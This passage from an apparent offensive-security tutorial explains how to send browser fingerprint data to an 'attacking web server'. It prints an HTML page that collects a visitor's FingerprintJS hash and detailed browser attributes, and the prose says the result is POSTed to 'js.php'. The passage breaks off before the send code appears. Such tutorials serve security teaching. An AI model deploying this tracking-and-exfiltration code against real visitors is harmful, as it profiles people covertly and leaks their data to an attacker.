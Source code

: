 ![](./img/Chapter13/3.png)

**Transfer the extracted information to attacking web server**

We use the `XMLHttpRequest` JavaScript API to interact with the attacking web server via a POST request

The result output string is sent to `js.php` via a POST request

Here is the `fingerprint2server.html` file that will be used to send the POST request:

```html
<!doctype html>
<html>
<head>
    <title>Blank Page</title>
</head>
<body>
    <h1>You have been given the finger!</h1>
    <script src="https://cdn.jsdelivr.net/npm/@fingerprintjs/fingerprintjs@2/dist/fingerprint2.min.js"></script>
    <script>
        var d1 = new Date();
        var options = {};
        Fingerprint2.get(options, function (components) {
            var values = components.map(function (component) { return component.value })
            var murmur = Fingerprint2.x64hash128(values.join(''), 31)
            var clientfp = "Client browser fingerprint: " + murmur + "\n\n";
            var d2 = new Date();
            var timeString = "Time to calculate fingerprint: " + (d2 - d1) + "ms\n\n";
            var details = "Detailed information: \n";
            if(typeof window.console !== "undefined") {
                for (var index in components) {
                var obj = components[index];
                var value = obj.value;
                if (value !== null) {
                    var line = obj.key + " = " + value.toString().substr(0, 150);
                    details += line + "\n";
                    }
                }
            }
```